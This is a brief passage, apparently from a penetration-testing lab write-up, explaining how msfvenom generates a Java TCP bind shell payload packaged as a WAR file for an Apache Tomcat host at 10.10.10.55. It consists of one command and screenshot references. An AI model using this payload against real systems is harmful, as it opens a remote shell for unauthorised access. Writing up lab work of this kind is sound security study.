 

## Generating Payloads

I was able to generate payloads using a tool called **msfvenom**

To generate a payload that can trigger a **TCP bind shell** with **msfvenom**, assuming the host is 10.10.10.55 and runs on an Apache Tomcat web server(Java based), we use the **syntax command**:

> msfvenom -p java/shell/bind_tcp LPORT=9005 RHOSTS=10.10.10.55 -f war -o payload.war

![alt text](image-17.png)

![alt text](image-18.png)
